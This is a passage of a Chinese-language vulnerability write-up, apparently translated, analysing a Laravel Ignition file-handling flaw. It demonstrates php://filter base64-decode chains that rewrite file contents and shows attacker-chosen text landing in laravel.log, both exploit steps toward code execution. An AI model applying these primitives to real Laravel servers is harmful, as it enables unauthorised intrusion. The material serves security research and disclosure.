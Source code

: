 这段代码比我们预想的要复杂一些：它会在读取给定的文件路径[1]后，将$variableName替换为$variableName ?? ''，初始文件和新文件都将被标记化[2]。如果我们的代码结构没有发生超出预期的变化，文件将被替换为新的内容。否则，makeOptional将返回false[3]，新文件将不会被写入。因此，我们无法使用variableName做太多事情。

剩下的唯一输入变量就是viewFile。如果我们对variableName和它的所有用法进行抽象，我们最终会得到下面的代码片段：

```php
$contents =file_get_contents($parameters['viewFile']);
file_put_contents($parameters['viewFile'], $contents);
```

到目前为止，大家可能都听说过Orange Tsai演示的上传进度技术。该技术利用php://filter在返回文件之前修改其内容。借助于该技术，我们就可以通过漏洞利用原语来转换文件的内容

```shell
$ echo test | base64 | base64 > /path/to/file.txt
$ cat /path/to/file.txt
ZEdWemRBbz0K
```

```shell
$f = 'php://filter/convert.base64-decode/resource=/path/to/file.txt';
# Reads /path/to/file.txt, base64-decodes it, returns the result
$contents = file_get_contents($f); 
# Base64-decodes $contents, then writes the result to /path/to/file.txt
file_put_contents($f, $contents); 
```

```shell
$ cat /path/to/file.txt
test
```

我们已经改变了文件的内容！遗憾的是，这将会应用两次转换。阅读文档后，我们找到了只进行一次转换的方法：

```shell
# To base64-decode once, use:
$f = 'php://filter/read=convert.base64-decode/resource=/path/to/file.txt';
# OR
$f = 'php://filter/write=convert.base64-decode/resource=/path/to/file.txt';
```

坏字符甚至都会被忽略：

```shell
$ echo ':;.!!!!!ZEdWemRBbz0K:;.!!!!!' > /path/to/file.txt

$f = 'php://filter/read=convert.base64-decode|convert.base64-decode/resource=/path/to/file.txt';
$contents = file_get_contents($f); 
file_put_contents($f, $contents); 

$ cat /path/to/file.txt
test
```

默认情况下，Laravel的日志文件（存放PHP错误和堆栈跟踪）是存储在storage/log/laravel.log中的。下面，让我们通过尝试加载一个不存在的文件来生成一个错误, 即SOME_TEXT_OF_OUR_CHOICE：

```shell
[2021-01-11 12:39:44] local.ERROR: file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory {"exception":"[object] (ErrorException(code: 0): file_get_contents(SOME_TEXT_OF_OUR_CHOICE): failed to open stream: No such file or directory at /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php:75)
[stacktrace]
#0 [internal function]: Illuminate\\Foundation\\Bootstrap\\HandleExceptions->handleError()
#1 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(75): file_get_contents()
#2 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Solutions/MakeViewVariableOptionalSolution.php(67): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->makeOptional()
#3 /work/pentest/laravel/laravel/vendor/facade/ignition/src/Http/Controllers/ExecuteSolutionController.php(19): Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution->run()
#4 /work/pentest/laravel/laravel/vendor/laravel/framework/src/Illuminate/Routing/ControllerDispatcher.php(48): Facade\\Ignition\\Http\\Controllers\\ExecuteSolutionController->__invoke()
[...]
```